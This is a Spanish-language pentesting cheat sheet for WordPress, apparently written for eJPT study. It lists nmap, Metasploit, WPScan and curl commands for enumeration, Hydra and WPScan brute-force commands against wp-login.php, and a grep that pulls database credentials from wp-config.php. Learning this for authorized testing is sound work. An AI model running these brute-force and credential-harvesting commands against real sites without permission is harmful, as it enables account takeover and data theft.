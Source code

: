 ```yaml
---
layout: single
title: WordPress Pentesting
excerpt: "Hacking"
date: 2021-05-22
classes: wide
header:
  teaser: /assets/images/Wordpress/1.png
  teaser_home_page: true
  icon: /assets/images/Wordpress/1.png
categories:
  - Wordpress
  - eJPTv2
tags:
  - eJPTv2
  - WordPress
---
```


# Auditoria CMS WordPress

-----

##  **🕵️ Identificación de la versión de WordPress y sus componentes**

### **Reconocimiento de servicios en WordPress**

```bash
nmap -sV --script http-wordpress-enum <url> # Detección de la versión de WordPress y plugins.
nmap -sV --script "http-wordpress* and not http-wordpress-brute" <url> # Escaneo de vulnerabilidades en WordPress.
nmap -sV --script http-wordpress-users <url> # Enumeración de usuarios de WordPress.
nmap --script=http-wordpress-enum --script-args http-wordpress-enum.root=/ -p 80,443 <URL> # Escaneo completo para confirmar el uso de WordPress.
nmap --script=http-vuln* -p 80,443 <url> # Detección de vulnerabilidades específicas en WordPress y sus plugins.
```
También podemos intentar enumerar plugins con la herramienta _curl_:

```ruby
curl -s -X GET "<ip_victima>" | grep -oP 'plugins/\K.*' | sort -u 
```

> Es importante verificar siempre ciertos directorios durante cualquier escaneo de WordPress.

### **✔️ Checklist de WordPress**

🎯 Para comprobar si existe un panel de inicio de sesión:

- url/wp-admin/login.php
- url/wp-admin/wp-login.php
- url/wp-login.php

🎯 Otros directorios clave a revisar en cualquier sitio web:

- url/robots.txt
- url/sitemap.xml
- url/CHANGELOG.txt

----

Si al acceder al servicio web notamos que no visualmente no carga correctamente, es posible que se esté utilizando *Virtual Hosting*. En este caso, deberemos añadir el dominio al que apunta realmente en nuestro archivo **/etc/hosts**. Para ello, agregamos la *IP de la web junto con el dominio correspondiente*, por ejemplo: `<ip_objetivo> blog.thm`.

---

###  **🛠️ Escaneo básico de WordPress con Metasploit**

```bash
use auxiliary/scanner/http/wordpress_version # Cargar el módulo.
set RHOSTS <url>
set RPORT 80
set TARGETURI /
run
```
### **🕵️ Enumeración de usuarios en WordPress**

```bash
use auxiliary/scanner/http/wordpress_users_enum
set RHOSTS <url>
set RPORT 80
set TARGETURI /
run
```

### **🔑 Ataque de fuerza bruta con Metasploit**

```bash
set RHOSTS <url>
set USERNAME <nombre_usuario> # Nombre de usuario objetivo.
set PASS_FILE /usr/share/wordlists/rockyou.txt # Diccionario de contraseñas.
exploit
```

  ### **🛠️ Otras herramientas para auditar WordPress**

### **🔹 WPScan**

**WPScan** es una herramienta especializada en la enumeración y auditoría de sitios basados en **WordPress**. Permite detectar vulnerabilidades, usuarios, plugins temas instalados y realizar ataques de fuerza bruta.

```bash
wpscan --url <url_wordpress> # Análisis básico de WordPress.
wpscan --url <url_wordpress> -e vp,u # Enumeración de plugins vulnerables y usuarios.
wpscan --url <url_wordpress> -e t # Enumeración de temas instalados.
```
> Para realizar un escaneo mas detallado deberemos añadir nuestro **token** de wpscan.

> 💡 Una buena práctica durante la auditoría de WordPress es revisar el código fuente de la página. Allí podemos encontrar rutas como `/uploads`, analizar si hay _directory listing_, identificar temas, plugins y posibles filtraciones de información (_information leakage_), vhosts, entre otros.

> 💡 También es recomendable examinar publicaciones de blogs u otras secciones del sitio web en busca de nombres de usuario que puedan ser utilizados en ataques de fuerza bruta.

----

### **🔑 Fuerza bruta en el panel de inicio de sesión de WordPress**

**Ataque de fuerza bruta con WPScan**

```bash
wpscan --url <url/wp-login.php> -U <username> -P /usr/share/wordlists/rockyou.txt # Uso de diccionario de contraseñas.
wpscan --url <url/wp-login.php> --passwords <ruta_diccionario.txt> --usernames <ruta_usuarios.txt> # Ataque con múltiples usuarios.
```

### **Ataque de fuerza bruta con Hydra**

```bash
hydra -l <username> -P /usr/share/wordlists/rockyou.txt <url> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:F=incorrect"
```

### Ataque a múltiples usuarios:

```bash
hydra -L <lista_usuarios.txt> -P <diccionario.txt> <url> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:F=incorrect"
```

> 🏁 Con estos métodos, podemos identificar la versión de WordPress utilizada, detectar plugins y temas instalados, analizar directorios sensibles, localizar paneles de acceso y ejecutar ataques de fuerza bruta para intentar obtener acceso al sistema.

> 💡credenciales de la base de datos MySQL dentro de los archivos de configuración de WordPress:

```bash
cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'
```

<iframe width="560" height="315" src="https://www.youtube.com/watch?v=cI27_M5_a4E&t" 
title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; 
encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

## Puedes seguir mas contenido en @henkosec (Youtube).
